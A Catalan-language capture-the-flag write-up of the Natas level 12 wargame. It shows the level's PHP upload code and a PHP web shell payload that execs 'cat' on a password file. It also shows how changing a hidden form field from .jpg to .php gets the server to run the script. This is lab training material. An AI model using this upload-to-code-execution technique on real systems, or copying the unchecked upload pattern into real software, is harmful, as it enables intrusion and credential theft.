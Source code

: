 ```
    }
    function makeRandomPathFromFilename($dir, $fn) {
        $ext = pathinfo($fn, PATHINFO_EXTENSION);
        return makeRandomPath($dir, $ext);
    }
    if(array_key_exists("filename", $_POST)) {
        $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
            if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
            echo "File is too big";
        } else {
            if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
                echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
            } else{
                echo "There was an error uploading the file, please try again!";
            }
        }
    } else {
    ?>
    <form enctype="multipart/form-data" action="index.php" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
    <input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
    Choose a JPEG to upload (max 1KB):<br/>
    <input name="uploadedfile" type="file" /><br />
    <input type="submit" value="Upload File" />
    </form>
    <?php } ?>
```
    Aquesta pàgina el que fa bàsicament és que tu pots penjar un fitxer JPEG (max d'1KB) i després pots anar a veure la imatge en qüestió.
    Primer comprovem si podem penjar altres fitxers que no només siguin format "JPEG".
    Comprovem que si penjem un fitxer .txt (per exemple), ens el deixa pujar, però no el renderitza (no veiem el contingut).
    Procedim a crear un fitxer .php on ens mostri la password de l'usuari 13.
    Tot i així, utilitzarem el mètode "exec" perquè el servidor executi la funció en bash que li passem.

    Fitxer .php, amb payload:
    <?php
    echo(exec('cat /etc/natas_webpass/natas13'));
    ?>

    Un cop el fitxer s'ha pujat, inspeccionem el contingut de la nostra pàgina web i veurem una línia com aquesta:
        <input type="hidden" name="filename" value="s9pspizx1z.jpg">
    Des del navegador modifiquem el nom de .jpg a .php:
        <input type="hidden" name="filename" value="s9pspizx1z.php">
    I li donem al botó de 'Upload File', podrem veure:
        The file upload/s9pspizx1z.php has been uploaded.
    
    Ens hi dirigim i ens mostrara el contingut del fitxer, és a dir, la password.

    Com que estem executant a través del navegador, realment som l'usuari www-data.
    La vulnerabilitat esta en que aixó és una miss-config ja que aquest usuari no hauria de poder mostrar aquest fitxer.
    Apart de que no ens hauria de poder deixar pujar fitxers que no siguin JPEG.

